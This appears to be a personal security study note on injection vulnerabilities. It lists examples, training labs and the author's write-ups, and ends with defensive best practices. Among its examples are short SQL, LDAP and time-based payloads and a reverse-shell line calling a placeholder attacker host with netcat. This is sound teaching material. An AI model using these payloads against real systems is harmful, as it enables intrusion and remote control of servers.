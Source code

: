 # Injection

## What is Injection

Injection attacks occur when untrusted input is sent to a code interpreter as part of a command or query. The attacker's input tricks the interpreter into executing unintended commands or accessing unauthorized data.

Injection vulnerabilities are caused by insecure handling of user-supplied data within interpreters (SQL, shell, LDAP, NoSQL, etc.). These vulnerabilities are often found in legacy systems, weakly validated inputs, or poorly written parsing logic. Advanced exploitation can result in full system compromise, lateral movement, or data exfiltration.

## Common Examples

- Putting code in a search bar – Can crash the site or give private info.
- Using fake input in a contact form – Could send harmful commands to the server.
- Entering code in a comment section – Might make the page act weird or dangerous.
- SQL Injection (SQLi) – e.g., SELECT * FROM users WHERE name = '$input'. An attacker supplies input like ' OR 1=1-- to bypass authentication.
- Command Injection – e.g., calling os.system("ping " + userInput), which allows execution of arbitrary system commands.
- LDAP Injection – Manipulating LDAP queries, e.g., (&(user=$input)(password=...)) with * or )(uid=*).
- XPath Injection – Exploiting XML query paths by modifying input to access unauthorized nodes.
- NoSQL Injection – e.g., injecting JSON-like structures into MongoDB queries to bypass access controls.
- Time-based Blind SQL Injection – e.g., using payloads like '; IF (1=1) WAITFOR DELAY '0:0:5'-- to infer true/false based on response time.
- Bash Command Injection – Payloads like ; nc attacker.com 4444 -e /bin/bash in vulnerable shell execution points.
- Stored Injection in an API – Injecting malicious SQL/commands into backend via seemingly safe API fields.
- Object Injection in PHP – Crafting serialized PHP objects to trigger magic methods leading to RCE or file disclosure.
- Polyglot Payloads – Payloads crafted to simultaneously exploit multiple interpreters (e.g., JavaScript and SQL in hybrid injection scenarios).

## Practice Exploiting Injection

### PortSwigger

PortSwigger has multiple labs to see this vulnerability in action. The labs are online and require an account. Here are some labs:

- [SQL Injection](https://portswigger.net/web-security/all-labs#sql-injection)
- [NoSQL Injection](https://portswigger.net/web-security/all-labs#nosql-injection)
- [XML External Entity (XXE) Injection](https://portswigger.net/web-security/all-labs#xml-external-entity-xxe-injection)

### OWASP Juice Shop

The OWASP Juice Shop is an open-source project that is intentionally vulnerable. It has many vulnerabilities and makes finding them a bit of a game using their scoreboard page. It can be accessed with Heroku or using Docker. I ran it using Docker and I seem to recall that one of the vulnerabilities will not work properly if you use Heroku. More information on the project and how to run it can [be found here](https://owasp.org/www-project-juice-shop/).

### TryHackMe

TryHackMe has a couple rooms dedicated to this subject. The rooms are online and require an account. Here are some links to rooms that talk about Injection:

- [OWASP Top 10 - 2021](https://tryhackme.com/room/owasptop102021)
- [Injection Attacks Module](https://tryhackme.com/module/injection-attacks)
- [Advanced SQL Injection](https://tryhackme.com/room/advancedsqlinjection)
- [SQL Injection Lab](https://tryhackme.com/room/sqlilab)
- [SQL Injection](https://tryhackme.com/room/sqlinjectionlm)

## Write Ups

Here are some write ups that I have done that involve injection:

### Vulnerabilities

- [Local File Injection](/vulnerabilities/local_file_injection.md)
- [SQL Injection](/concepts/injection.md#sql-injection)

### TryHackMe

- [Archangel](/write_ups/try_hack_me/archangel.md)
- [Chill Hack](/write_ups/try_hack_me/chill_hack.md)
- [Ignite](/write_ups/try_hack_me/ignite.md)
- [JPGChat](/write_ups/try_hack_me/jpg_chat.md)

## Best Practices

| Best Practice | Why It Matters |
| ------------- | -------------- |
| Use Parameterized Queries (Prepared Statements) | Prevents attackers from injecting malicious code by separating data from commands. |
| Employ Input Validation and Sanitization | Ensures only expected data is processed, reducing the risk of malicious input. |
| Implement Least Privilege Access Controls | Limits the potential impact if an injection attack succeeds by restricting user permissions. |
| Avoid Dynamic SQL Generation | Reduces the risk of injection by not constructing queries with user input directly. |
| Use ORM Frameworks with Caution | While ORMs can help prevent injection, improper use can still lead to vulnerabilities. |
| Escape User Input Appropriately | Escaping special characters can prevent input from being interpreted as code. |
| Regularly Update and Patch Systems | Keeps systems protected against known vulnerabilities that could be exploited via injection. |
| Implement Web Application Firewalls (WAFs) | Provides an additional layer of defense by filtering out malicious input before it reaches the application. |
| Conduct Regular Security Testing | Identifies potential injection vulnerabilities before they can be exploited. |
| Educate Developers on Secure Coding Practices | Awareness and training can prevent the introduction of injection vulnerabilities during development. |

## Summary

Like many of the vulnerabilities in the OWASP Top Ten, the Injection vulnerability stems from trusting user data. All input from external systems and user data should be cleaned and sanitized. Until recently, this was the top item on the OWASP Top Ten list. This vulnerability can range from getting account access, getting unauthorized data and remote code execution. Do not trust user data.
